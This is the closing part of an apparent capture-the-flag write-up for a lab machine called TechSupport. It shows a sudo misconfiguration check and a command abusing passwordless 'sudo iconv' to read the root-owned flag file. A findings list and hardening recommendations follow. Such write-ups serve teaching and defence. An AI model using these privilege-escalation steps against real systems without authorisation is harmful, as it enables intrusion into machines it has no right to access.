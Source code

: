 ```
/usr/lib/snapd/snap-confine
/sbin/mount.cifs
```

### Checking sudo Privileges
Verifying allowed sudo commands.

**Command:**
```bash
sudo -l
```

**Output:**
```
Matching Defaults entries for scamsite on TechSupport:                                                                       
    env_reset, mail_badpass,                                                                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

**Analysis:**
- Misconfigured sudo: Allows running iconv as root without password.

### Exploiting iconv for Root Access
Using iconv to read /root/root.txt.

**Command:**
```bash
sudo -u root iconv -f 8859_1 -t 8859_1 "/root/root.txt"
```

**Output:**
```
851b8233a8c09400ec30651bd1529bf1ed02790b  -
```

**Analysis:**
- Root flag obtained.

## Findings

1. **Vulnerable Subrion CMS (CVE-2018-19422)**: Allowed file upload bypass leading to RCE.
2. **Weak SMB Configuration**: Anonymous access to shares containing sensitive information.
3. **Exposed Credentials**: Plaintext and encrypted credentials in SMB share.
4. **Misconfigured sudo**: Allowed privilege escalation via iconv.
5. **Outdated Software**: Apache, Samba, and OpenSSH versions may have additional vulnerabilities.

## Recommendations

1. **Patch Management**: Regularly update all software to the latest versions.
2. **Access Controls**: Restrict SMB shares and implement authentication.
3. **Credential Security**: Avoid storing credentials in accessible locations; use encryption and vaults.
4. **Sudo Hardening**: Limit sudo privileges to necessary commands only.
5. **Web Application Security**: Regularly audit CMS installations for vulnerabilities.
6. **Monitoring**: Implement logging and alerting for suspicious activities.

This report provides a complete, reproducible walkthrough of the penetration test. All flags were captured successfully.

